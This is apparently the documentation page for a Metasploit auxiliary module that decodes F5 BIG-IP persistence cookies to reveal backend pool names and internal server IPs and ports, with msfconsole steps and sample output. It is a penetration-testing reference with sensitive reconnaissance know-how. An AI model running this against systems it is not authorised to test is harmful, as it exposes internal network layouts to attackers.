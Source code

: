 ## Description

This module identifies F5 BIG-IP load balancers and leaks backend information (pool name, routed domain, and backend servers' IP addresses and ports) through cookies inserted by the BIG-IP systems.

For further information:

* [K6917: Overview of BIG-IP persistence cookie encoding](https://support.f5.com/csp/article/K6917)
* [K7784: Configuring BIG-IP cookie encryption (9.x)](https://support.f5.com/csp/article/K7784)
* [K14784: Configuring cookie encryption within the HTTP profile (10.x - 15.x)](https://support.f5.com/csp/article/K14784)
* [K23254150: Configuring cookie encryption for BIG-IP persistence cookies from the cookie persistence profile](https://support.f5.com/csp/article/K23254150)

## Verification Steps

1. Start `msfconsole`
2. Select the module: `use auxiliary/gather/f5_bigip_cookie_disclosure`
3. Select your target(s): `set RHOSTS www.example.fr`
4. Run the module: `run`

## Options

  **REQUESTS**

  The number of requests to send. Default value is `10`.

  **RPORT**

  The BIG-IP service port. Default value is `443`.

  **TARGETURI**

  The URI path to test. Default value is `/`.

## Scenarios

### F5 BIP-IP load balancing cookie not found

  ```
  msf5 > use auxiliary/gather/f5_bigip_cookie_disclosure
  msf5 auxiliary(gather/f5_bigip_cookie_disclosure) > set RHOSTS www.example.com
  RHOSTS => www.example.com
  msf5 auxiliary(gather/f5_bigip_cookie_disclosure) > run
  [*] Running module against 93.184.216.34

  [*] Starting request /
  [-] F5 BIG-IP load balancing cookie not found
  [*] Auxiliary module execution completed
  msf5 auxiliary(gather/f5_bigip_cookie_disclosure) >
  ```

### F5 BIP-IP load balancing cookie found

  The sensitive information have been replaced with fake ones for privacy reasons:

  ```
  msf5 > use auxiliary/gather/f5_bigip_cookie_disclosure
  msf5 auxiliary(gather/f5_bigip_cookie_disclosure) > set RHOSTS vulnerable-target.com
  RHOSTS => vulnerable-target.com
  msf5 auxiliary(gather/f5_bigip_cookie_disclosure) > run
  [*] Running module against 1.1.1.1

  [*] Starting request /
  [+] F5 BIG-IP load balancing cookie "BIGipServer~DMZ~EXAMPLE~vulnarable-target-443_pool = 1214841098.47873.0000" found
  [+] Load balancing pool name "~DMZ~EXAMPLE~vulnarable-target-443_pool" found
  [+] Backend 10.1.105.72:443 found
  [*] Auxiliary module execution completed
  msf5 auxiliary(gather/f5_bigip_cookie_disclosure) >
  ```
